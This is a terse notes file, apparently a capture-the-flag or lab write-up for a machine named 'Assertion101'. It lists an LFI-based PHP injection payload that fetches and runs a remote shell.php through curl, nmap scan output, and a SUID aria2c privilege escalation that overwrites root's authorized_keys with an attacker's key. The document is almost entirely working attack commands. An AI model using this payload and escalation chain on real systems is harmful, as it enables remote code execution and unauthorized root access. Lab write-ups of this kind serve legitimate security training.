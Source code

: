 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Assertion101
# 25/2/2023

----------------------------------------------------
# LFI http://192.168.141.94/index.php?page=gallery
----------------------------------------------------
' and die(system("curl http://<ip>/shell.php|php")) or '

----------------------------------------------------
# nmap result
----------------------------------------------------
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))

----------------------------------------------------
# priv esc
----------------------------------------------------
find / -perm -u=s -type f 2>/dev/null 
aria2c

transfer ssh pub file in client
/usr/bin/aria2c -d /root/.ssh/ -o authorized_keys "http://192.168.49.141/id_rsa.pub" --allow-overwrite=true

